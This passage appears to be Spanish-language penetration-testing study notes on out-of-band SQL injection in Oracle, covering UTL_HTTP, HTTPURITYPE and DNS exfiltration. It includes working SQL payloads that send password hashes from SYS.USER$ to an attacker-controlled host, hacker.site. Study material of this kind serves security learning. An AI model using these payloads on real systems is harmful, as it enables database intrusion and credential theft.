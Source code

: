 * Utilizando estas características, podemos crear una consulta a un recurso web controlado por el hacker y luego controlar el registro de acceso Para analizar todas las solicitudes llegadas.
* Sólo Oracle proporciona esta característica de manera nativa

Dos técnicas \[ Oracle ]:

```
UTL_HTTP

# HTTPURIType: https://docs.oracle.com/cd/B28359_01/appdev.111/b28419/t_dburi.htm#BGBGAHAA
```

Oracle URL\_HTTP package → https://docs.oracle.com/cd/B19306\_01/appdev.102/b14258/u\_http.htm

* Puede utilizar tanto a través de SQL como PL/SQL

Dos divertidos útiles:

```
REQUEST
REQUEST_PIECES
```

Only the REQUEST can be used in a SQL query:

```sql
SELECT UTL_HTTP.REQUEST ('hacker.site/'||(SELECT spare4 FROM SYS.USER$ WHERE ROWNUM=1)) FROM DUAL;
```

The REQUEST\_PIECES debe utilizarse en a PL/SQL Block \*example in images

Oracle HTTPURITYPE Package

* La primera es a menudo desactivada.

También podemos exfiltrar información a través de HTTP:

```sql
SELECT HTTPURITYPE ('hacker.site'/||(SELECT spare4 FROM SYS.USER$ WHERE ROWNUM=1)).getclob() FROM DUAL;

# getclob() method returns the character large object (CLOB), but we can also use other methods such as: GETBLOB(), GETXML() and GETCONTENTTYPE()
```

### OOB via DNS

En este contexto, en lugar de controlar el servidor web tenemos que controlar un servidor DNS.

> Incluso si el administrador establece una política agresiva de cortafuneros que filtra cualquier conexión saliente, el sitio de la víctima todavía podrá responder a las solicitudes y realizar consultas DNS.

* El servidor utiliza un solucionador DNS configurado por el administrador de la red, pero el solucionador necesita ponerse en contacto con un servidor DNS bajo el control de los atacantes, por lo que devuelve los resultados de la inyección al atacante.
* Como requisito, el hacker debe tener acceso al servidor DNS.

> El servidor debe ser registrado como el servidor de nombres autorizado para esa zona (por ejemplo, hacker.site)
